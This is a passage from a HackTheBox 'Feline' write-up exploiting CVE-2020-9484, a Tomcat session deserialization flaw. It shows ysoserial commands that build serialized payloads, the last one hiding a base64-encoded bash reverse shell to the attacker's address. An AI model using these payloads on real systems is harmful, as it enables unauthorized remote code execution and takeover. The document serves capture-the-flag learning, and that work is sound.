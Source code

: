 Exactly what we have on the box. So let's try to exploit it

## CVE-2020-9484

This vulnerabiliy is in Apache.

- The server must be configured to use the PersistenceManager
- There must be an upload functionality where the attacker can control the uploaded file name.
- The attacker must know the path of the upload storage location.

We do not know at this point if the server is configured to use the PersistenceManager. However, we do know that all of the other conditions are true.

We donwload the exploit from the github page before and tried to use it, we see how it works, and use a serialized payload and some kind of path transversal. So let's reproduce it.

So, we create a payload with [ysoserial](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

```sh
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 'ping -c 1 10.10.14.20' | base64 -w0 | xclip -selection clipboard
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-10-HackTheBox-Feline/2021-10-10-HackTheBox-Feline%2009:21:09.png)

Upload it to the server

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-10-HackTheBox-Feline/2021-10-10-HackTheBox-Feline%2009:22:08.png)

Unconvert from base64

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-10-HackTheBox-Feline/2021-10-10-HackTheBox-Feline%2009:23:00.png)

If we try to copy the content of the payload, it's not going to work properly, so this whay is better!

Uploaded

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-10-HackTheBox-Feline/2021-10-10-HackTheBox-Feline%2009:39:49.png)

And then we trigger the payload

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-10-HackTheBox-Feline/2021-10-10-HackTheBox-Feline%2010:14:26.png)

Got RCE

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-10-HackTheBox-Feline/2021-10-10-HackTheBox-Feline%2010:14:14.png)

So, let's try to get a reverse shell

We create our payload

```sh
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMC80NDMgMD4mMQo=}|{base64,-d}|{bash,-i}' > /home/kali/Downloads/rce.session
```
